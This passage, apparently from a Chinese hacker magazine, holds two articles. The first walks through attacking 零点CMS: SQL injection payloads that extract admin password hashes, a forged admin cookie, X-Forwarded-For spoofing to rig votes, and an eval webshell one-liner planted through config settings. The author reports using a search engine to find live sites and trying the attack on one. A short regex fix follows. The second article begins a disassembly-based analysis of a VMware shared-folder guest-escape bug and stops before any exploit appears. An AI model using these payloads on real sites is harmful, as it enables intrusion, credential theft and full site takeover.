修改后的页面如图8所示，这样我们进行手工猜解时，每次只需要修改会员账号栏中的注入语句即可。



图8

我们使用的注入语句分别如下：

```sql
admin' and (select mid(memberpass,1,1) from ZD_member where memberid='admin') between '0' and '9' and '1'='1
-- 猜解 admin 用户密码的第一位是否在 0~9 之间

admin' and (select mid(memberpass,2,1) from ZD_member where memberid='admin') between 'a' and 'f' and '1'='1
-- 猜解 admin 用户密码的第二位是否在 a~f 之间
```

如果提示“该用户已经被注册！”，则是；如果提示如图9所示，则否。此外需要注意的是，由于 MemberID 字段最大允许 50 个字符，所以注入时用户账户栏输入的字符数应大于 50，这样就不会给数据库中增加新用户。在实测中不要直接使用“admin' and '1'=2”，因为这将新增一个“admin' and '1'=2”用户，应该插入空格使其字符数大于50。接着就再次进攻吧！

## 首发漏洞 FIRST EXPLOIT



图9

member.asp 文件时，却显示“HTTP/1.1 500 Server Error”。后来才知道那家伙将该文件的内容全部删除，成了 0 字节了。看来只有先放弃此突破口了，唉，阻击架好却没了目标！

看来只好继续寻找突破口了，后来事实也证明了决定的英明（^-^）。终于被我找到了更大的突破口！就因他的“张扬”给零点CMS引来了毁灭性的灾难。不过事物都有两面性，尽管可能因此文会对使用零点 CMS 网站的安全构成威胁，但是新的灾难也会促使零点 CMS 更进一步，这也算是对自己行为的一种安慰吧。

阻击条件（判断能否使用阻击）：可以注册新用户，使用增加长度的“admin' and '1'='1”提示“该用户已经注册”，而使用增加长度的“admin' and '1'='2”提示“字段大小”，注意 admin 用户必须存在，也可换为其他存在的用户名。

## 爆破

- 目标：inc/checkLogin.asp  
- 描述：在 MemberLogin 函数（登录认证）中因 FormatWord 函数的正则表达式拼写缺陷使得表单提交的变量 user 没有过滤，而产生注入漏洞。我们从登录页面 login.asp 开始分析，代码如下。

```asp
<!-- #include file="config.asp" -->
<!-- #include file="conn.asp" -->
<!-- #include file="inc/md5.asp" -->
<!-- #include file="inc/checkLogin.asp" -->
<%
Dim errMessage
errMessage="请注意输密码的安全性，最多允许登录次数为3!"
If Request.Form("post")<>"" Then
  Call MemberLogin(Request.QueryString("backUrl"))
End If
%>
```

可见当表单提交的 post 变量非空时，调用 inc/checkLogin.asp 中的 MemberLogin 函数，继续分析该函数，代码如下：

```asp
Function MemberLogin(backURL)
Dim g_user,g_pass,limitDayFlag
' ...
g_user=Request.form("user")
g_pass=Md5(Request.form("pass"))
set Rs=Server.CreateObject("Adodb.Recordset")
sql="select * from ZD_member where memberID='"&g_user&"'"
rs.open sql,conn,1,1
IF rs.eof or rs.bof Then
  errMessage="错误!无此用户请查证后再输入。"
  Response.Cookies(ZD_CookieName)("errLogin")=Cint(Request.Cookies(ZD_CookieName)("errLogin"))+1
Else
  IF g_pass=rsPass and rs("locked")=False and limitDayFlag=True Then
    Response.Cookies(ZD_CookieName)("MemberLevel")=Rs("memberLevel")
  Else
    errMessage="密码错误,或者您的用户已被管理员锁定,或者会员到期,请查证后再试。"
  End If
End IF
End Function
```

可见 g_user 只经过 FormatWord 函数就直接进入了 SQL 语句执行，当 rs 返回非空时，进一步判断密码是否一致、locked 字段是否为 False、limitDayFlag 是否为 True（即 isLimit 字段是否为 False），如果是则写 Cookies 登录验证通过，否则返回错误提示。这样我们就可以构造 union 语句满足以上条件了。

```sql
Abc' union select 1,memberpass,'7a57a5a743894a0e',4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,true,false,false,false,26 from zd_member where memberid='admin'
```

说明 Abc 为任意不存在的用户名，目的是让前面的 select 语句返回空集。Memberpass 位置对应的是 MemberID 字段，即将 union 出的密码放入 Cookies 的 MemberID 中；7a57a5a743894a0e 为 admin 的 MD5 码，所以登录时密码应为 admin，也可以自定。Select 的字段中倒数第2、4个必须为 false，即 locked 和 isLimit 字段必须为 false，最后的 admin 当然是希望 union 出密码的用户名。

由于 union 出的密码存入到了 Cookies 中，所以我们必须使用工具才可以查看到，如啊D注入工具。

### 1）冲锋

使用啊D注入工具打开页面，用会员账号构造出 union 语句（登录页面未对输入的长度限制），会员密码为 admin，登录后 Cookies 的 MemberID 将记录出 admin 用户的密码，如图10所示。



图10

哈哈，尽管登录后跳转到的 member.asp 页面出错，但跳转前已经将 admin 用户密码存入 Cookies 的 MemberID 中了！爆破一举成功。

爆破条件（判断能否爆破）：用“admin' and '1'='1”登录（密码任意）提示“密码错误”；用“admin' and '1'='2”登录提示“无此用户”；注意 admin 用户必须存在，也可换为其他存在的用户名。

### 2）混战

前面提到，我们可以使用百度搜索特征页面得到使用零点 CMS 的网站，任选一个试试爆破，出错！如图11所示。看来自建站时对数据库做了改动，我不想猜字段数，那么就换阻击方法吧。先用增加长度的“admin' and '1'='1”和“admin' and '1'='2”进行检测，前者提示用户已注册，后者提示字段太小！OK，此漏洞可以利用，接下来大家就都知道该怎么做了。



图11

### 3）用户名

前面提到判断能否使用阻击或爆破时需要使用存在的用户名，一般零点 CMS 会在首页显示新入会员列表，如果没有时，可使用“js/RemoteCall.asp?CallType=member&DisplayNum=5”链接列出！（DisplayNum 值改为 10，一次可显示 10 个）。



图12

假如没有显示出用户或者你根本就不想知道其他用户名，可以将判断能否阻击或爆破的条件改为“ddd' or '1'='1”和“ddd' or '1'='2”，ddd 用户就必须不存在！这应该比较容易吧！阻击实测注意必须增加长度。

虽然使用 RemoteCall.asp 无法得知管理员用户名，但根据字段 ZAdmin=true 就可以确定管理员，于是我们将爆破用的 union 语句优化为：

```sql
Abc' union select 1,memberpass,'7a57a5a743894a0e',4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,true,false,false,false,26 from zd_member where ZAdmin=true and '1'='1
```

将 memberpass 改为 memberID，还可爆破出管理员用户名。一旦得到 memberID 和 memberpass 就可破解 MD5 密码或使用 Cookies 欺骗进入后台，严重的就可以挂马！所以说这些漏洞是零点 CMS 毁灭性的灾难一点也不为过吧？

下面我们再继续详细分析引起漏洞的“罪魁祸首”——FormatWord 函数的正则表达式拼写问题。

### 4）FormatWord 函数与正则表达式

在 inc/checkLogin.asp 文件的第36行是对 FormatWord 函数的调用，如图13所示（其定义在 inc/CommonFunction.asp 文件中，可以不用理会）。

我们重点看看该函数中的正则表达式“^[\w{3,16}]|[\u4E00-\u9FA5]$”，作者的意图是“用户账号只能是由字母、汉字、数字、下划线组成，并限制在3~16个字符”，但可能作者太过于自信或者是疏忽了，该正则表达式并不能表达出这样的意图！

图13

关于正则表达式的介绍，网上非常多了，这里我们只需要了解几个关键。一是常用的元字符，如表1所示；二是常用的限定符，如表2所示；三是常用的反义代码，如表3所示。

| 代码 | 说明 |
|---|---|
| . | 匹配除换行符以外的任意字符 |
| \w | 匹配字母或数字或下划线 |
| \s | 匹配任意的空白符 |
| \d | 匹配数字 |
| \b | 匹配单词的开始或结束 |
| ^ | 匹配字符串的开始 |
| $ | 匹配字符串的结束 |

表1. 常用的元字符

| 代码/语法 | 说明 |
|---|---|
| * | 重复零次或更多次 |
| + | 重复一次或更多次 |
| ? | 重复零次或一次 |
| {n} | 重复n次 |
| {n,} | 重复n次或更多次 |
| {n,m} | 重复n到m次 |

表2. 常用的限定符

| 代码/语法 | 说明 |
|---|---|
| \W | 匹配任意不是字母、数字、下划线、汉字的字符 |
| \S | 匹配任意不是空白符的字符 |
| \D | 匹配任意非数字的字符 |
| \B | 匹配不是单词开头或结束的位置 |
| [^x] | 匹配除了x以外的任意字符 |
| [^aeiou] | 匹配除了aeiou这几个字母以外的任意字符 |

表3. 常用的反义代码

## 字符分类

“[]”：一对方括号被称为一个字符分类。你可以用来匹配任何一个或多个字符。假设你想匹配单词 gray，同时也想找一下被拼写成 grey 的单词，使用一个字符分类将允许你匹配这两者。

正则表达式 gr[ea]y 被解读成“匹配这样的字符串——一个 g，跟着是 r，跟着或者是一个 e 或者是一个 a，跟着一个 y”。

## 选择性元字符

“|”的意思是“or”。它允许你把多个表达式合成到一个表达式，然后匹配里面任何单个表达式的结果。这些子表达式被称为备选项。

现在我们分析正则表达式“^[\w{3,16}]|[\u4E00-\u9FA5]$”，意思首先应该是“^[\w{3,16}]”或“[\u4E00-\u9FA5]$”，然后分别进行解释。

“\w”表示“字母、数字或下划线”，简称为“\w”。“\w{3,16}”即3~16位“\w”。“[\w{3,16}]”即3~16位“\w”中的某一位。

“^[\w{3,16}]”：即字符串的开始应该为“\w”，前面使用元字符“^”就只限定字符串的开始，也就是说字符串的其他位置没有限定，即只要开始字符是“\w”，就能满足该正则表达式。

“[\u4E00-\u9FA5]$”：即字符串的结束应该为汉字。即只要结束字符是汉字，就能满足该正则表达式。

很显然，“^[\w{3,16}]|[\u4E00-\u9FA5]$”表示为“开始应该为‘\w’或结束应该为汉字”！这样的表达很有意思。你可以测试，用户名第一个字符为单引号，结束不为汉字时，正则表达式将毫不犹豫地拦了下来；但是当结束为汉字时，则放行！即对开始的非法字符单引号视而不见，因为这时满足第二个条件！同样只要满足第一个条件，即第一个字符为“\w”，那么结束是否为汉字、中间是否存在非法字符就无关紧要了（这是致命的，也是产生漏洞的根本原因！）。

正确的正则表达式应该是“^(\w|[\u4E00-\u9FA5]){3,16}$”，圆括号用来设定一个特定的表达式子集，这里指“\w”或“汉字”。由于爆破和阻击两处漏洞都是因正则表达式原因产生的，所以只要修改成正确的正则表达式便可防止！

令人费解的是在 inc/checkLogin.asp 文件中，AdminLogin 函数除了用 FormatWord 限制外，还用 Replace 过滤了单引号；但在同一文件中的 MemberLogin 函数为何只用 FormatWord 进行限制？看来还是太过自信了！更费解的是从官方网站下载的最新版 ZSA3.21，其数据库中就注册了一个“a=a”用户，按照代码，如果 FormatWord 有效的话，是不允许出现“=”的，因为它明显不属于字母、数字或下划线！看来还是作者疏忽了。

## 扫尾

分析其他代码时，我又发现 getIP() 函数存在问题（定义在 inc/CommonFunction.asp 文件中）。当 Request.ServerVariables("HTTP_X_FORWARDED_FOR") 不为空或不含“unknown”时，getIP 函数从客户端提交的变量 X-Forwarded-For 中取值，因此我们便可以进行 IP 欺骗了。我们知道，零点的“在线调查”不允许同一 IP 重复投票，如图14所示。下面我们就利用 getIP() 函数的漏洞进行 IP 欺骗。

首先投一次票，使用 WinSockExpert 开始监听 vote.asp 窗口，刷新 vote.asp 窗口后，再给监听到的 POST 数据中增加一行“X-Forwarded-For: 123.456.789.000”另存为 1.txt，如图15所示。用 NC 提交后，未提示“您已经投过票了”，证明已完成 IP 欺骗。打开数据库文件（默认为 data/data.mdb），发现 ZD_VoteCount 表已经记录了 IP 为“123.456.789.000”的投票，如图16所示。

可见的确可以进行 IP 欺骗的！利用此漏洞我们就可以进行任意刷票了。遗憾的是，getIP() 函数最后使用“getIP = Trim(Mid(strIPAddr, 1, 30))”语句，将 IP 长度限制为30，想注入 SQL 语句就变得非常困难了，目前看此漏洞可利用的价值不大。因为最短的语句“select(memberid) from zd_member”刚30个字符！但说不定哪位牛人就能突破此限制呢！

## 攻壳

既然已经成功爆破出更大的突破口，那么现在就发起总攻吧！有了俘获的敌人统帅——管理员的 MemberID 和 MemberPass 便“一切尽在把握中了”！可以在线破解或者爆破 MemberPass，这里我们只使用 Cookies 欺骗足矣，杀鸡焉用牛刀！

- Cookies 欺骗
- 后台挂马

下面是进入后台的 Cookies 代码：

```text
ASPSESSIONIDSQTBCCAD=FAPIHHAECMINCHCBDFJIKMHPL; Zero=lastLoginIP=192%2E168%2E0%2E56&MemberType=%B3%AC%BC%B6%B9%DC%C0%ED%D4%B1&loginTimes=295&Cent=0&Password=7a57a5a743894a0e&MemberLevel=3&errLogin=&leftDays=%D6%D5%C9%ED&MemberID=admin // 这里的admin、7a57a5a743894a0e、Zero请根据实际修改
```

需要注意的是，Cookies 中的 MemberID、Password 和 Cookies 前缀应根据实际修改。我们已经得到前两个，Cookies 前缀默认为“Zero”，如果建站者做了修改就还需确定。方法很简单，爆破 MemberPass 时就已经得到 Cookies 前缀了。甚至你使用任意的用户名和密码都可以得到 Cookies 前缀，如图17所示，因为零点需要使用 Cookies 记录你登录失败的次数！真有点聪明反被聪明误的味道。之后我们便可利用 Cookies 欺骗进入后台了，如图18所示。

记得 morphaze 曾在一篇关于零点漏洞的文章（《黑客防线》2006年第5期）中提到后台挂马，可能因为零点作者认为文章涉及的漏洞根本就算不上零点自身的问题，应该是网站设置问题才被进入后台的，所以我们下载到的最新版（3.2.1）并没有进行修补，但就因为零点的再次疏忽，使得最后一道防线被瓦解攻克！具体原理就不分析了，只说明几处可以利用的参数。在 inc/Save_Config.asp 中的参数（在 Config.asp 中没有使用双引号，相应参数名前加“ZD_”前缀），除 SoftLevel 使用 cint 限制，AllowUpload、AllowImgSize、AllowSoftSize 为常量，MemberIsLimitTime 只有两个值外，ExteriorPost、MemberNeedCheck、RegInitLevel、MemberLimitTime、GbookNeedLogin、GbookNeedCheck、OpenLockedIP、CountOnline、Interval、ErrLogin 几个变量都只使用 HTMLEncode 函数过滤，并没用限制“:”，所以可以插入一句话 `:eval(request(chr(112)))`，POST 提交时应使用编码形式 `%3Aeval%28request%28chr%28112%29%29%29`，长度为38。

Cookies 欺骗进入后台后，我们进行“参数设置”，使用 WinSockExpert 监听“啊D”工具 POST 的数据包，然后在以上可以利用的变量（如 Interval）值后插入一句话，包长度增加38，如图19所示。再另存为 TXT 文件用 NC 提交！如图20所示。

最后再用 lake2 的 eval 最小马发送端连接即可成功，如图21所示，至此零点完全沦陷！

## 后记

我们可以看出，“万恶之源”均因为零点作者的大意与疏忽，假如在测试时稍微留意，便可发现 FormatWord 中正则表达式的缺陷，那么就没有能被阻击与爆破的突破口。再假如作者当初在看到 morphaze 的漏洞检测文章后，对后台的“参数设置”功能进行修补，那么说不定还可以守住最后一道防线，也不至于完全沦陷！

然而现实中没有像“人话西游”中的时光倒流，一切都已发生，唯有正确面对，及时修补。也希望大家不要恶意攻击别人，借用零点的话“大家建站都不容易”，如果您是好意测试者，我也感谢你了。毕竟我们分析别人代码的目的是为了学习和借鉴。最后再次致意零点“亡羊补牢，犹未为晚”！我们应本着虚心的态度，做到有漏必补。尽管零点是免费发布的，就像赈济也要保证安全卫生一样，否则义举就会变成恶行，令漏洞弥漫，隐患暗藏，被他人利用，反成为帮凶了。

适合读者：漏洞爱好者  
前置知识：汇编语言，VC

# 虚拟机也不安全

### —— VMWare Critical Bug 浅析

文/图 陈布雨

随着各种虚拟化技术的成熟以及硬件性能的提升，以往需要安装多操作系统甚至多计算机来实现各种平台程序的应用，现在在同一台电脑上就可以解决这个问题，不仅大大减少了硬件成本，也方便了管理人员，以至于连服务器也搞起了虚拟化以实现各种应用的相互隔离，从而充分利用当今的双核、四核 CPU。而对于程序开发人员和软件测试人员来说，也起到了一定的简化工作量的作用，甚至对一些可能接触到的恶意软件进行了充分的预防，并减少了各类后门木马以及病毒所带来的危害。

由于 VMware 经过模拟处理后交给物理电脑即 Host OS 处理，从 VMware 的设计初衷来看，无论对 Virtual Machine 的硬盘数据如何破坏都不会影响到 Host OS，因为对于这些 Virtual Machine 来讲，读写磁盘实际上被 VMware 转化为了 Host OS 上的一个文件。也就是说，VMware 读写的应该是 Host OS 上当前虚拟机的文件，这也是虚拟机访问硬件的唯一方法。但很可惜的是，并非所有的结果都和预想的一样，我们下面来看一个漏洞公告。

> February 24, 2008 (Computerworld) A critical vulnerability in VMware Inc.'s virtualization software for Windows lets attackers escape the "guest" operating system and modify or add files to the underlying "host" operating system, the company has acknowledged.

……省略……

According to VMware, the bug is in the shared-folder feature of its Windows client-based virtualization software. Shared folders let users access certain files — typically documents and other application-generated files — from the host operating system and any virtual machine on that physical system.

"On Windows hosts, if you have configured a VMware host-to-guest shared folder, it is possible for a program running in the guest to ..."

图1

从图1可以看出，VMware 运行时首先需要 host OS，即宿主操作系统，而 VMware 可以虚拟出 Virtual Machine 1、Virtual Machine 2……乃至于 Virtual Machine n。因此，在 Virtual Machine 中诸如读写磁盘、访问网卡等操作，理论上就是由 VMware 经过模拟处理后交给物理电脑即 Host OS 处理。

## 首发漏洞（FIRST EXPLOIT）

栏目编辑 wtf / wtf@hacker.com.cn

> gain access to the host's complete file system and create or modify executable files in sensitive locations,” confirmed VMware.

当然，这份漏洞说明仅是一个通知，并未对漏洞进行详细的说明以及解决方案。下面我们就来对这个问题进行一下简单的探究。

在开始之前，我尽量地查找了相关资料，由于 VMware 是闭源商业软件，以至于 SDK 中都没有关于 shared-folder 的相关文档，这给我们的研究工作带来了巨大的麻烦，因此我们必须先对 VMware workstation 进行一次反汇编分析。

通过上文对漏洞的描述，可以确定与文件操作有关，我们索性找到 Host 中关于文件操作的地方，其基本过程应该如下。

首先由 Virtual Machine 发出对 shared-folder 的访问请求，而后由 Host 对相关请求进行处理，由 Host 检查目标路径的权限以及是否可以访问等，以此确定 Virtual Machine 是否可以正确访问或者写入 Host 上的文件，最后由 Host 通过控制 Virtual Machine 流程以及 Virtual Machine 的内存以及 I/O 操作来达到完成请求的目的。

既然是文件操作，我们首先想到的就是 API→CreateFile。因此，首要任务就是附加到虚拟机进程。至于如何附加进程等问题，可参见2008年第1期我的文章《Anti Anti VMware》，这里不再赘述。附加成功之后，默认情况应该是 vmware-vmx.exe 进程，但如果选择了 stats 或者 debug 模式，就会发生变化，如图2所示。

之后我们保持虚拟机处于正在运行的状态且不会读写任何 Host 上面的文件，以排除干扰。接下来再共享一个有写入权限的 shared_folder 用作试验。为了方便起见，可以使用空文件夹，以避免 Windows 的索引和预览服务的干扰。然后我们使用 OllyDbg 下一个断点，这里为了简化操作，就下 NtCreateFile 吧，与此同时在虚拟机中往共享文件夹中复制一个文件。

由于断的是 NtCreateFile，返回后会发现来自 CreateFileW 调用了 NtCreateFile，那我们就在 CreateFileW 下断点，并重复刚才的操作。会看到如图3所示的结果。从图中可以很容易地得到……

FileName 就是我们要创建的文件名，而 Mode 则是 CREATE_NEW，即创建新文件。由此我们可以断定这里就是 Host 处理 Shared_folder 的地方。经过多次返回后，我们可以来到以下的代码处。

| 地址 | 数值 | 注释 |
|---|---|---|
| ... | ... | call CreateFile / SharedFolder / Security ... |

图3

```asm
0054D650 55              push ebp
0054D651 8BEC            mov ebp, esp
0054D653 57              push edi
0054D654 8B7D10          mov edi, [arg.3]
0054D657 8B17            mov edx, dword ptr [edi]
0054D659 83FA08          cmp edx, 8
0054D65C 7309            jnb short ...
...
0054D684 51              push ecx
0054D685 FF14C5A03B7700  call dword ptr [eax*8+...]
```

这个格式很明确地告诉我们，这里是处理分发操作的地方，继续返回。

```asm
0050C678 52              push edx
0050C679 E8A2E4100       call ...
0050C67E 8B4E3D          mov ecx, dword ptr [esi+3D]
0050C681 83C404          add esp, 4
0050C684 3BC1            cmp eax, ecx
0050C686 7414            je short ...
0050C688 57              push edi
0050C689 6844B77400      push ...
; ASCII "GuestMsg: Channel %u, Wrong cookie. Man-in-the-middle attack?"
```

## Shared_Folder 处理流程分析

通过上面的调试字符串可以知道，这里实际上是处理 GuestMsg 的地方。最后我们来到下面的代码处。

我们索性定义一下这个结构，如图4所示。然后我们照例借助反编译工具分析这个分发表所在的过程，如图5所示。从这里的“v4 >= 24”可知，这个结构数组应该为 24 个成员，如果调用参数小于 24 就直接处理分发。

```asm
0045B910  push ebp
0045B911  mov ebp, esp
0045B913  push 0
0045B915  call ...
...
0045B958  call ecx
0045B95A  add esp,10
0045B960  pop ebp
0045B961  retn
```

看到这段代码，可能有的朋友会记得我在《Anti Anti VMware》一文中提到过，这里就是处理 BackDoor 的地方。也就是说，如果要证实我们的猜想，那么 shared_folder 就是通过类似于检测虚拟机的“in eax,dx”指令传递给 Host 处理的。由于这里的跟踪过程颇为繁琐，我们就不继续细究了。

但需要说明的是刚才所说的分发表“call dword ptr ds:[eax*8+773BA0]”。我们用 IDA 分析可以发现，这里是“eax * 8”，是一个结构，且这个结构的尺寸为 8。

```c
SharedFolderDispatch struct ; (sizeof=0x8)
pFunc  dd ?
dw     dd ?
SharedFolderDispatch ends
```

图4

```c
void __cdecl sub_...(...)
{
    ...
    if (v4 >= 24) ...
    else ...
}
```

图5

```asm
; SharedFolderDispatch arrSharedFolderDispatch[24]
arrSharedFolderDispatch dd offset sub_5C9180 ; pFunc
... ; dw
```

图6

从图7所示的函数中，我们可以清楚地看到是在对 API ReadFile 进行调用，联想到刚才的 CreateFileW，断定这里就是处理 Read File 操作的地方。但这里的各种结构操作等都是未知的，其上层的 GuestMsg 以及 RPC Channel 的结构定义也是未公开的，且其 SDK 上也未对其进行说明。就在灰心丧气试图放弃的时候，我搜索到了一个开源的 Guest Tools 组件代码，对我们的分析起到了近乎决定成败的推动作用。

## Guest Tools 与 HgfsClient 代码线索

分析 Guest Tools 的代码会找到一个 HgfsClient 的组件代码，其中清楚介绍了 Virtual Machine 与 Host 通过 Shared_Folder 通信的方法。

